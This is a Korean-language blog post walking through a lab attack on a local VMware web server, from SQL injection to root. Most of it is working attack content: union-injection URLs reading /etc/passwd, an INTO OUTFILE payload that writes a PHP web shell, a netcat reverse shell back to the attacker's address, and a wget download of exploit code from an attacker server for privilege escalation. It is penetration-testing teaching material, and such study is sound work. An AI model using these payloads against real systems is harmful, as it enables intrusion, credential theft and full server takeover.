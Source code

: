 ```yaml
---
title: "SQL Injection 공격 실습"
categories:
  - Web
tags:
  - Web hacking
  - SQL Injection
  - netcat
  - webshell
comments: true
---
```


SQL Injection 공격을 통해 서버의 root 권한을 획득하는 방법에 대해 기술한다.

> 1. 실습 환경설정
> 2. SQL Injection 취약점 확인 (Blind SQL Injection, Union SQL Injection 이용)
> 3. MYSQL 권한으로, webshell 생성하기
> 4. nc 를 통한 reverse connection
> 5. exploit code 업로드 및 실행을 통한 권한상승


# 1. 실습 환경설정

VMware [Edit]-[Virtual Network Editor]-[VMnet8] 에서 다음과 같이 설정한다.
- Subnet IP : 10.10.10.0
- DHCP Settings - starting ip address : 10.10.10.5
- DHCP Settings - starting ip address : 10.10.10.254

VMware NAT 방식에서 공격대상과 공격자 IP는 다음과 같다.
- 공격대상 서버의 IP : 10.10.10.10
- 공격자 PC 의 IP : 10.10.10.1

<center><p><img src="/assets/2019-01-28-post-web_sql/1.1.jpg"><br>
<em>vmwware 설정</em></p></center>

<center><p><img src="/assets/2019-01-28-post-web_sql/1.2.png"><br>
<em>공격대상 서버 URL : 10.10.10.10/test/</em></p></center>

<center><p><img src="/assets/2019-01-28-post-web_sql/1.3.png"><br>
<em>서비스 계정(id : test, pw : test)</em></p></center>

# 2. SQL Injection 취약점 확인 (Blind SQL Injection, Union SQL Injection)

<center><p><img src="/assets/2019-01-28-post-web_sql/2.png"><br>
<em>서비스 계정(id : test, pw : test)</em></p></center>

로그인 이후, FREE BOARD, **USER BOARD(취약점 존재)**, Q&A BOARD, SERVICE BOARD 등 게시판에서 취약점이 있는지 여부를 확인한다.


## 2.1. Blind SQL Injection
<p>
10.10.10.10/test/board.php?no=1 and 1=1 (TRUE)
10.10.10.10/test/board.php?no=1 and 1=0 (FALSE)
위 둘의 URL 실행결과가 다른 것을 통해 SQL Injection 공격 취약점이 존재하는 것을 파악할 수 있다.
</p>

<center><p><img src="/assets/2019-01-28-post-web_sql/2.1.1.png"><br>
<em>[10.10.10.10/test/board.php?no=1 and 1=1 결과화면]</em></p></center>

<center><p><img src="/assets/2019-01-28-post-web_sql/2.1.2.png"><br>
<em>[10.10.10.10/test/board.php?no=1 and 1=0 결과화면]</em></p></center>

## 2.2. Union SQL Injection

> 컬럼개수 파악하기
<p>
http://10.10.10.10/test/board.php?no=0 order by 1 --
http://10.10.10.10/test/board.php?no=0 order by 2 --
~
http://10.10.10.10/test/board.php?no=0 order by 8 -- 까지는 에러가 안뜬다.
http://10.10.10.10/test/board.php?no=0 order by 9 -- 부터 에러가 뜬다.  그러므로, 컬럼은 총 8개이다.
</p>

<center><p><img src="/assets/2019-01-28-post-web_sql/2.2.1.png"><br>
<em></em></p></center>


> 각각의 컬럼 위치 확인하기
<p>
http://10.10.10.10/test/board.php?no=0 union select 1,2,3,4,5,6,7,8 --
</p>

<center><p><img src="/assets/2019-01-28-post-web_sql/2.2.2.png"><br>
<em></em></p></center>


> Title 부분에 계정정보 출력하기
<p>
http://10.10.10.10/test/board.php?no=0 union select 1, load_file('/etc/passwd'),3,4,5,6,7,8 --
</p>

<center><p><img src="/assets/2019-01-28-post-web_sql/2.2.3.png"><br>
<em></em></p></center>


# 3. MYSQL 권한으로, webshell 생성하기

> MYSQL 권한으로 Webshell 생성

<div class="notice">
<p>
http://10.10.10.10/test/board.php?no=0 union select 1,"<?php system($_GET['cmd']); ?>",3,4,5,6,7,8 into outfile"/usr/local/apache/htdocs/test/shell.php" --
</p>
</div>

<center><p><img src="/assets/2019-01-28-post-web_sql/3.1.png"><br>
<em></em></p></center>

> Webshell 동작 확인

<p>
http://10.10.10.10/test/shell.php?cmd=ls
</p>
<center><p><img src="/assets/2019-01-28-post-web_sql/3.2.1.png"><br>
<em></em></p></center>

<p>
http://10.10.10.10/test/shell.php?cmd=ls  (nobody 권한인 것을 확인할 수 있다.)
</p>
<center><p><img src="/assets/2019-01-28-post-web_sql/3.2.2.png"></p></center>

# 4. nc 를 이용한 reverse connection

> 공격자 PC 에서 nc 실행 후, 응답대기

cmd 창 2개 생성
- cmd_1 : nc -l -p 33333, nc 프로그램이 33333 번 포트로 응답대기(33333번 포트는 임의로 설정)
- cmd_2 : netstat -na, 33333 포트가 응답대기인지 확인(프로그램이 제대로 실행되었는지 확인)
<center><p><img src="/assets/2019-01-28-post-web_sql/4.1.1.png"></p></center>

> Web 에서 nc 실행하여, 공격 대상 서버 -> 공격자 PC 로 연결 (reverse connection)

<p>
10.10.10.10/test/shell.php?cmd=nc -e /bin/sh 10.10.10.1 33333 (10.10.10.1 은 공격자 PC ip 주소)
다음과 같이 탭에서 계속 돌고 있는 상황이면 정상적으로 실행이 된 것이다.
</p>
<center><p><img src="/assets/2019-01-28-post-web_sql/4.2.png"></p></center>

> 연결확인

cmd_1 : id (계정정보 확인)

<center><p><img src="/assets/2019-01-28-post-web_sql/4.3.png"></p></center>


# 5. exploit code 업로드 및 실행을 통한 권한상승

> wget 을 통한 익스플로잇 코드 업로드

<p>
공격자 소유의 서버(10.10.10.20)에 있는 exploit code 를, 공격대상이 되는 서버에서 다운로드 하도록 한다. 
10.10.10.10/test/shell.php?cmd=wget http://10.10.10.20/exp.c
</p>
<center><p><img src="/assets/2019-01-28-post-web_sql/5.1.png"></p></center>

> Webshell 에서 exp.c 다운로드 확인

10.10.10.10/test/shell.php?cmd=ls -al
<center><p><img src="/assets/2019-01-28-post-web_sql/5.2.png"></p></center>

> NC 를 통해 (cmd_1)에서 확인
<center><p><img src="/assets/2019-01-28-post-web_sql/5.3.png"></p></center>

>  exploit code 컴파일 후 실행을 통한 권한상승

`1) gcc -o exp exp.c`
<center><p><img src="/assets/2019-01-28-post-web_sql/5.4.1.png"></p></center>

`2) ls -al`
<center><p><img src="/assets/2019-01-28-post-web_sql/5.4.2.png"></p></center>

`3) ./exp  ,  id`
<center><p><img src="/assets/2019-01-28-post-web_sql/5.4.3.png"></p></center>


이상으로 SQL Injection 공격을 이용한 root 권한 획득에 대해 알아보았다.

